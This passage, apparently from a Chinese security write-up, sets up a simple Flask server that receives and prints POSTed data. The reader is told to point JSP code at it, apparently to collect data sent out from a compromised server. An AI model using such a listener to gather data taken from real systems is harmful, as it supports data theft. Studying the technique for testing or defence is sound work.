 可以看到数据已经传输过来了：

[![](assets/1708482732-05a341fae61a439b95cda854c9a9e122.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240211003508-5a2d9b60-c832-1.jpeg)

当然，用`yakit`自带的这个是有缺陷的，就是不能持续接受，因为不能返回自定义的状态码，因此我们可以`python`自己写一个：

```bash
from flask import Flask, request

app = Flask(__name__)

@app.route('/postendpoint', methods=['POST'])
def handle_post_request():
    if request.method == 'POST':
        if request.data:
            print("Received data:", request.data.decode())
            return '', 200
        else:
            return 'No data received', 400

if __name__ == '__main__':
    app.run(debug=True)
```

然后修改`jsp`代码中的`url`：
